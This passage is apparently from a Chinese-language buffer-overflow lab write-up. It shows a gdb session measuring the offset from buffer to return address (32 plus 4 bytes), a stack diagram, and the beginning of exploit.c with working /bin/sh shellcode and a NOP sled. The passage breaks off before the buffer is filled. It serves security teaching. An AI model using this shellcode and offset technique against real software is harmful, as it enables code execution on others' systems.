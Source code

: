     Breakpoint 1 at 0x804848a: file stack.c, line 14.
    (gdb) run
    Starting program: /home/x/Desktop/xx/stack 
    Breakpoint 1, bof (
        str=0xbffff0f7 "\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220X\361\377\277\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220"...) at stack.c:14
    14	    strcpy(buffer, str);
    (gdb) p $ebp
        $1 = (void *) 0xbffff0d8
    (gdb) p &buffer
    $2 = (char (*)[24]) 0xbffff0b8
        (gdb) p 0xbffff0d8-0xbffff0b8
        $4 = 32
        (gdb) quit

根据调试结果可得，`ebp = 0xbffff0d8`，返回地址在ebp上面，所以是`ret = 0xbffff0d8+4`
可以跳转去的最小地址是 `0xbffff0d8+8`
输入badfile中的buffer地址与ebp差32，返回地址ret在ebp上4，所以`ret = buffer+32+4`

   

       4 |   ret
       4 |   ebp
      32 |   ...
         |   ...     
         |   buffer[0]

3） exploit.c
为保证成功率，shellcode之前可以添加一些NOP，保证即使地址稍有偏移也可以完成利用
```
    /* exploit.c  */
    /* A program that creates a file containing code for launching shell*/
    #include <stdlib.h>
    #include <stdio.h>
    #include <string.h>
    char shellcode[]=
        "\x31\xc0"             /* xorl    %eax,%eax              */
        "\x50"                 /* pushl   %eax                   */
        "\x68""//sh"           /* pushl   $0x68732f2f            */
        "\x68""/bin"           /* pushl   $0x6e69622f            */
        "\x89\xe3"             /* movl    %esp,%ebx              */
        "\x50"                 /* pushl   %eax                   */
        "\x53"                 /* pushl   %ebx                   */
        "\x89\xe1"             /* movl    %esp,%ecx              */
        "\x99"                 /* cdq                            */
        "\xb0\x0b"             /* movb    $0x0b,%al              */
        "\xcd\x80"             /* int     $0x80                  */
    ;
    
    void main(int argc, char **argv)
    {
        char buffer[517];
        FILE *badfile;
    
        /* Initialize buffer with 0x90 (NOP instruction) */
        memset(&buffer, 0x90, 517);
    
        /* You need to fill the buffer with appropriate contents here */ 
```